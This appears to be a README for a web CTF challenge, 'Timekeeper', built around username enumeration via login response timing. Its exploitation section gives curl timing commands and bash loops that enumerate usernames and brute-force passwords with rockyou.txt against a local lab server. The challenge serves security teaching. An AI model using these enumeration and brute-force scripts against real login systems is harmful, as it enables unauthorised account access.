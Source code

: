 # ⏱️ Timekeeper - CTF Challenge

**Category:** Web  
**Difficulty:** Medium  
**Vulnerability:** Username Enumeration via Response Timing  

---

## 📘 Description

Welcome to **Timekeeper** — a CTF challenge simulating a real-world vulnerability where the login response time leaks information about valid usernames.

The challenge features a login portal with a subtle timing difference when a correct username is provided versus an incorrect one.

---

## 🛠️ Setup Instructions

### 🐳 Using Docker (Recommended)

```bash
git clone https://github.com/your-repo/timekeeper-ctf.git
cd timekeeper-ctf
docker build -t timekeeper .
docker run -p 3000:3000 timekeeper
```
## Step-by-Step Exploitation
 - Step 1:Test Invalid Username Timing
 ```bash
curl -X POST -d "username=test&password=123" http://localhost:3000/login -w "\n%{time_total}\n"

 ```
 - Step 2: Test Valid Username Timing
```bash
curl -X POST -d "username=admin&password=123" http://localhost:3000/login -w "\n%{time_total}\n"

```

- Step 3: Automate timing enumeration with rockyou.txt

 ``` bash
 while read user; do
  echo -n "$user: "
  curl -s -X POST -d "username=$user&password=123" http://localhost:3000/login -w "%{time_total}\n" -o /dev/null
done < rockyou.txt

 ```

 - Step 4: Brute-force Password with Wordlist

 ```bash
 while read pass; do
  echo -n "[*] Trying password: $pass ... "
  resp=$(curl -s -X POST -d "username=admin&password=$pass" http://localhost:3000/login)
  if echo "$resp" | grep -q "🎉 Flag"; then
    echo "[+] Success! Password: $pass"
    echo "$resp" | grep "FLAG"
    break
  else
    echo "Invalid"
  fi
done < rockyou.txt

 ```